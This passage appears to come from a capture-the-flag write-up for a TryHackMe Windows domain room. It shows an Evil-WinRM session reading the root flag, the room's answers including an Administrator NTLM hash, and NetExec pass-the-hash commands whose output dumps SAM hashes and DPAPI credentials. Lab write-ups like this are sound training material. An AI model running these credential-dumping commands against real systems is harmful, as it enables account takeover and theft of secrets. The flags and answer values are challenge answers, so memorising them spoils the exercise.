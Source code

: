 *Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        5/29/2023  11:00 PM             37 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
THM{a7e9c8149fec53865eff983143b1f5ba}


<img width="1149" height="299" alt="image" src="https://github.com/user-attachments/assets/8650e2d5-79c6-4b4d-9b2c-efad969a347f" />



<p>2.3. What is the root flag?<br>
<code>THM{a7e9c8149fec53865eff983143b1f5ba}</code></p>



<p>2.4. What is the Administrator's NTLM hash?<br>
<code>9545b61858c043477c350ae86c37b32f</code></p>p>







root@ip-10-201-108-225:~/K2# nxc smb 10.201.43.198 -d k2.thm -u Administrator -H '9545b61858c043477c350ae86c37b32f' --sam
SMB         10.201.43.198   445    K2SERVER         [*] Windows 10 / Server 2019 Build 17763 x64 (name:K2SERVER) (domain:k2.thm) (signing:True) (SMBv1:False) 
SMB         10.201.43.198   445    K2SERVER         [+] k2.thm\Administrator:9545b61858c043477c350ae86c37b32f (Pwn3d!)
SMB         10.201.43.198   445    K2SERVER         [*] Dumping SAM hashes
SMB         10.201.43.198   445    K2SERVER         Administrator:500:aad3b435b51404eeaad3b435b51404ee:9545b61858c043477c350ae86c37b32f:::
SMB         10.201.43.198   445    K2SERVER         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.201.43.198   445    K2SERVER         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[00:28:15] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                      regsecrets.py:436
SMB         10.201.43.198   445    K2SERVER         [+] Added 3 SAM hashes to the database








root@ip-10-201-108-225:~/K2# nxc smb K2Server.k2.thm -u Administrator -H '9545b61858c043477c350ae86c37b32f' --dpapi
SMB         10.201.43.198   445    K2SERVER         [*] Windows 10 / Server 2019 Build 17763 x64 (name:K2SERVER) (domain:k2.thm) (signing:True) (SMBv1:False) 
SMB         10.201.43.198   445    K2SERVER         [+] k2.thm\Administrator:9545b61858c043477c350ae86c37b32f (Pwn3d!)
SMB         10.201.43.198   445    K2SERVER         [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.201.43.198   445    K2SERVER         [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.201.43.198   445    K2SERVER         [+] Got 73 decrypted masterkeys. Looting secrets...
SMB         10.201.43.198   445    K2SERVER         [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{59BC6E03-A1C2-446D-BE80-E0228AAE02CF} - K2\Administrator:vz0q$i8b4c
